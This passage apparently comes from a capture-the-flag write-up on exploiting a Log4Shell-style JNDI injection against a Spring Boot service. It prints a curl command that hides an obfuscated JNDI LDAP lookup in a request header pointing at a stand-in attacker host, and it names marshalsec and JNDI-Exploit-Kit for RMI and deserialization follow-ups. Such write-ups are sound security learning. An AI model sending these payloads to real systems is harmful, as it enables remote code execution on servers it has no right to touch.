 ```bash
curl -H 'X-API-Version: ${${::-j}ndi:${::-l}dap://ATTACKER_IP_ADDRESS:1389/Exploit}' http://127.0.0.1:8888
```

This seems to work. We get a callback on marshalsec:

![Callback to Marshalsec.](/images/shaker/call-marshalsec2.png)

But curiously this results in no request on our HTTP server. This means LDAP probably wont cut it. Maybe it's a different JVM version or the software doesn't trust the LDAP reply.

Some further research into Spring boot and JNDI led us to: [https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
This, interestingly talks about another, earlier, exploit. It is demonstrated using RMI, which is interesting. So perhaps, it's still possible to exploit this older vulnerability using Log4shell style lookups, via a malicious RMI server.

Ok, so at this point we can close marshalsec and look for alternatives. We could use veracode's PoC above, but I found this pearl which faciliates the exploit quite a bit:

[https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)

This also incorporates a number of other things, including integration of YSOSerial payloads which can be very useful in other deserialization challenges.

Let's take a look at our options here:

![JNDI-Exploit-Kit Help.](/images/shaker/JNDI-Kit-help.png)
